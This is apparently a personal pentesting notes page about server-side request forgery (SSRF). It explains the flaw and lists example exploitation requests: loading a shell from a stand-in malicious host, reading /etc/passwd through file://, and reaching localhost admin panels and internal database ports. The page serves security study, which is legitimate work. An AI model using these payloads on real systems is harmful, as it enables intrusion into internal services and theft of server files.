

repository: amandaguglieri/hackinglife · page: webexploitation/server-side-request-forgery-ssrf/index.html · generator: mkdocs

---
title: SSRF attack - Server Side Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
# SSRF attack - Server Side Request Forgery

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location. The attacker could create a request to internet or to the intranet, which can be used to port scan or probe a remote machine. Basically, it could allow an atacker to:

- Take control of a remote machine.
- Read or update data.
- Read the server configuration.
- Connect to internal services...


With:

```
http://
file:///
dict://
```


## Exploitation


### Load the Contents of a File

```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

[See Burpsuite Labs](../burpsuite/burpsuite-ssrf.md)

### Read files from restricted resources 

```
GET https://example.com/page?page=https://localhost:8080/admin
GET https://example.com/page?page=https://127.0.0.1:8080/admin
GET https://example.com/page?page=file:///etc/passwd
```


### Read files from other backend systems

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses.


```
GET https://example.com/page?page=https://localhost:3306/
GET https://example.com/page?page=https://localhost:6379/
GET https://example.com/page?page=https://localhost:8080/
```

Gopherus sends non authenticated requests to other services and it succeded.
